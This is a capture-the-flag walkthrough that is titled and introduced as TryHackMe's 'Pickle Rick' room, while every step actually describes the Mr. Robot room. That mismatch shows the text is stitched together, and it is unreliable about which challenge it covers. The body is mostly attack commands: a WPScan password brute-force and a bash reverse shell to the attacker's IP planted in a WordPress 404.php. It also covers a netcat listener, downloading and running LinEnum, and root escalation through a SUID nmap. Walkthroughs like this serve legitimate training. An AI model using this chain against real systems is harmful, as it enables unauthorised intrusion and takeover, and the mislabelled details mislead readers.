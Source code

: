 ```yaml
---
title: Pickle Rick
categories: [TryHackMe]
tags: [Linux, easy]
image: images/Rick/Rick.png
---
```


**Pickle Rick** is an **easy** rated room on **TryHackMe** inspired by Rick and morty series. This is probably one of the easiest TryHackMe Boxes but then again , it’s great for practice.

# 1. Initial Reconnaissance and Scanning:

The first phase of any Capture The Flag (CTF) challenge is information gathering. Our goal here is to identify what services are running on the target machine and which ports are open. This intelligence sets the stage for future attacks.

### Nmap Scan:

Use Nmap to scan the target's open ports, services, and versions:

```console
nmap -sC -sV -oN nmap_scan <Target_IP>

```

●`-sC:` Enables default scripts, often revealing common vulnerabilities.  
●`-sV:` Detects service/version information, such as Apache, OpenSSH, etc.

### Understanding the Results:

Look for ports such as:

●**Port 80** (HTTP): Likely indicates a website is running.  
●**Port 443** (HTTPS): Secure HTTP services.  
●**Port 22** (SSH): Useful later for remote access.

we do a little nmap scan on the given IP address and discover
![Rick](../Images/Rick/nmap.png)

# 2. Web Enumeration :

With **port 80 (HTTP)** open, it's time to explore the website for hidden vulnerabilities or clues. This includes both manual inspection and automated enumeration of directories.

### Inspect the Website:

Visit the site at `http://<Target_IP>`. The website is themed around the **Mr. Robot** show, but stay focused on finding clues. Check the **page source** for hidden comments or links that developers might have left behind.

**robots.txt File:**
The `robots.txt` file can contain sensitive or hidden information that isn't meant for users. Access it with:

```console
curl http://<Target_IP>/robots.txt
```

You'll find two key pieces of information:

**●fsocity.dic:** A wordlist for brute-forcing passwords.  
**●key-1-of-3.txt:** The first flag. Retrieve it from `http://<Target_IP>/key-1-of-3.txt`.
Download both files:

```console
wget http://<Target_IP>/fsocity.dic
wget http://<Target_IP>/key-1-of-3.txt
```

The **fsocity.dic** file is a wordlist we will use later for brute-forcing the login credentials.

# 3. Directory Brute-Forcing

Next, we perform directory brute-forcing to uncover hidden pages or admin areas. This step can lead to further insights about the target's web structure.

### Gobuster or Dirb Scan:

```console
gobuster dir -u http://<Target_IP> -w /usr/share/wordlists/dirb/common.txt
```

●`u:` The target URL.
●`w:` The wordlist (in this case, common.txt).
●`t:` Number of threads to speed up the process.
The scan will reveal directories like `/wp-admin` and `/wp-login.php`, indicating the presence of **WordPress** on the machine a crucial discovery, as WordPress sites are often vulnerable.

# 4. WordPress Enumeration

Knowing that the target is running WordPress, the next step is to enumerate the WordPress installation to identify users and vulnerabilities.

### WPScan:

WPScan is a great tool for WordPress enumeration. Let's start by finding users:

```console
wpscan --url http://<Target_IP> --enumerate u
```

This scan will likely reveal a username like **Elliot**, named after the main character from Mr. Robot. Now you have a target for a brute-force attack.

# 5. Brute-Forcing WordPress Login

With the username **Elliot** identified, the next step is to brute-force the password using the **fsocity.dic** wordlist.

### WPScan Brute-Force:

```console
wpscan --url http://<Target_IP> --wordlist fsocity.dic --username Elliot
```

WPScan will attempt to log in with each password in the wordlist until it succeeds, eventually cracking the password.

# 6. Gaining Access Through WordPress

Once you’ve logged in as **Elliot** via `http://<Target_IP>/wp-login.php`, you have control over the WordPress site. Your next goal is to upload a **reverse shell** and gain access to the underlying system.

### Uploading a Reverse Shell:

Go to **Appearance > Theme Editor**, and select the `404.php` file. Replace its content with **Pentestmonkey’s PHP reverse shell**: [link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```console
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<Your_IP>/<Your_Port> 0>&1'");
?>
```

Insert your local machine's IP address and the port you want to listen on.

# Netcat Listener:

On your machine, set up a listener with **Netcat**:

```console
nc -lvnp <Your_Port>
```

# Trigger the Reverse Shell:

Visit the following URL to execute the reverse shell:

```console
http://<Target_IP>/wp-content/themes/<theme>/404.php
```

This will establish a connection between the target and your local machine.

# 7. Privilege Escalation

Now that you have a shell, you need to escalate your privileges from a low-level user to **root**.

### System Enumeration:

Check system information and identify potential privilege escalation vectors:

```console
whoami        # Check current user
hostname      # System name
uname -a      # Kernel version
```

### Using LinEnum or LinPEAS:

You can automate the privilege escalation enumeration process using tools like **LinEnum** or **LinPEAS**:

```console
wget http://<URL_to_LinEnum>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

### Escalating with SUID Binaries:

Check for binaries with the SUID bit set (which run as root even if you're a regular user):

```console
find / -perm -u=s -type f 2>/dev/null
```

If **nmap** has the SUID bit set, you can use its interactive mode to escalate privileges:

```console
nmap --interactive
!sh
```

This will drop you into a root shell.

# 8. Capture the Flags

Now that you have root access, it's time to capture all three flags.

●**First Flag**: Found in the `robots.txt` file (`key-1-of-3.txt`).
●**Second Flag**: Search the home directories to find the second flag:

```console
cat /home/<username>/key-2-of-3.txt
```

●**Root Flag**: The final flag is usually located in the root directory:

```console
cat /root/key-3-of-3.txt
```

# Final Thoughts

With root access and all flags captured, you have successfully completed the **Mr. Robot** CTF challenge on TryHackMe or Vulnhub.
